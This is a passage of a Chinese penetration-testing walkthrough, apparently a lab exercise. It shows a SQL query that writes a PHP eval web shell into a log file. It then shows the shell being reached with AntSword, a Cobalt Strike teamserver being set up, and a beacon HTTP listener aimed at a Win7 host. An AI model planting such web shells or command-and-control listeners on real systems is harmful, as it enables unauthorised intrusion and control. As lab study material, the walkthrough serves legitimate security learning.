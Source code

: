 于是通过语句更新两者，将其日志启动，并更改路径到服务器根目录下。


```sql
select "<?php @eval($_POST['shell']);?>"
```
然后只需要运行查询语句，即可将shell写入日志文件里面，也就是shell.php里面。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678850501170-6c4fd3bc-125f-41cd-8173-70daa2ec0d89.png#averageHue=%23ececec&clientId=u531c24f4-2300-4&from=paste&height=208&id=u928a4c43&name=image.png&originHeight=260&originWidth=912&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=35601&status=done&style=none&taskId=u903c6d3d-275e-4754-b85b-3b721eca67e&title=&width=729.6)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849431767-586c1922-748d-4730-89fc-b4d99c058ba1.png#averageHue=%23e8e7e7&clientId=u531c24f4-2300-4&from=paste&height=159&id=uefb1a3a9&name=image.png&originHeight=199&originWidth=901&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31666&status=done&style=none&taskId=ub9631dd4-2e96-4486-8227-d5a2cf2dabf&title=&width=720.8)
写入shell后，通过蚁剑成功访问服务器文件！

:::info
这里得到一个shell就够了。原本可以在yscms里面再创建一个shell的，这里不多阐述
:::


## 三、连接Cobalt Strike
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678850896462-811c2b88-26b5-4d72-9971-e94502ef31af.png#averageHue=%23212121&clientId=u531c24f4-2300-4&from=paste&height=32&id=u97c73260&name=image.png&originHeight=40&originWidth=217&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=5825&status=done&style=none&taskId=ub1db8563-220d-440c-8de6-1a09ac4faa9&title=&width=173.6)
这里通过蚁剑查看自己的权限，administrator是一个挺高的权限了。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678850996226-5df88bd2-6450-4775-a613-82db55f56dd1.png#averageHue=%23282e3c&clientId=u531c24f4-2300-4&from=paste&height=363&id=u4fb90d8b&name=image.png&originHeight=454&originWidth=746&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25122&status=done&style=none&taskId=u86d90786-a5ed-4e2e-8901-41dcc31c0b9&title=&width=596.8)
于是这里打开我们的cs。我是将cs的服务端和客户端都放在自己电脑上的。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851044192-a6e98452-287a-41fb-88b3-f729e451f51b.png#averageHue=%23272e3a&clientId=u531c24f4-2300-4&from=paste&height=205&id=uf014ea15&name=image.png&originHeight=256&originWidth=655&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=54507&status=done&style=none&taskId=ua2647957-9eaa-403f-b5b5-7d2b3fa83a6&title=&width=524)
我们在cs目录下运行teamserver 输入本机端口 和任意密码，即可开启一个cs服务端，当启动成功后，这个命令端将持续运行，这里不能关闭命令端口。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851154443-10574f89-451f-49f4-9b94-c98f1b89617e.png#averageHue=%23262d3b&clientId=u531c24f4-2300-4&from=paste&height=309&id=ud070bf1f&name=image.png&originHeight=386&originWidth=656&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=83647&status=done&style=none&taskId=u9fa1b18b-256c-4276-aedb-2752a4beef0&title=&width=525)
这里再打开一个命令端，继续在cs目录下运行 cobaltstrike

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851255494-0eaa69c2-3019-46c5-a38c-a9ef6fe72d10.png#averageHue=%23bad1bd&clientId=u531c24f4-2300-4&from=paste&height=263&id=u3ada80a7&name=image.png&originHeight=329&originWidth=503&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36326&status=done&style=none&taskId=u1d66840d-8c26-4ccc-8ecb-bd78fdfe6e0&title=&width=402.4)
就会得到一个窗口，然后客户端的命令窗口也不能关闭！
这里主机写服务端的ip，这里我主机和服务端都在kali上，所以我写入本机ip
端口不变，用户随意。
密码写入之前创建服务端的密码，这里是root

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851367490-32d69307-1089-46bc-9452-1d006bb080f2.png#averageHue=%23457643&clientId=u531c24f4-2300-4&from=paste&height=494&id=ubaeac136&name=image.png&originHeight=618&originWidth=798&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=109951&status=done&style=none&taskId=u33897d22-a84d-49e4-bfb6-7ef6ebb2298&title=&width=638.4)
点击连接后，即可成功进入cs（这里我之前已经攻击过了，所以有东西，如果是刚打开，这里是没有东西的）

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851443701-c49c54fd-34e4-4dac-bc54-77665d0bac06.png#averageHue=%23c0c8d6&clientId=u531c24f4-2300-4&from=paste&height=501&id=u9291e539&name=image.png&originHeight=626&originWidth=822&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=112205&status=done&style=none&taskId=ue1b38669-0381-4b9d-abc6-d6b835480f3&title=&width=657.6)
这里我们先点击监听器，然后添加一个监听器。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851518784-a5c0ecb9-1d6d-4570-9077-d88854317816.png#averageHue=%23b7d5c2&clientId=u531c24f4-2300-4&from=paste&height=412&id=ue52c027b&name=image.png&originHeight=515&originWidth=497&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47875&status=done&style=none&taskId=uf4526d87-e8f8-4db6-bf58-a13955fdfae&title=&width=397.6)
这名字随意，payload选择beacon HTTP
payload选项里面：
HTTP地址填写cs服务端ip！
HTTP地址（Stager）填写被攻击的ip地址，这里我攻击win7的ip地址为172.16.170.43
端口写一个不常用的端口，这里写7878
填完后点击创建。
可以看到下方有一个以创建的监听器。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678851693470-31f956a0-6ccd-4908-92a9-08fb18462d09.png#averageHue=%239fb2c7&clientId=u531c24f4-2300-4&from=paste&height=38&id=ud130831b&name=image.png&originHeight=47&originWidth=794&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=8891&status=done&style=none&taskId=uf62fa70c-f857-4484-9b76-6fdfd08e058&title=&width=635.2)

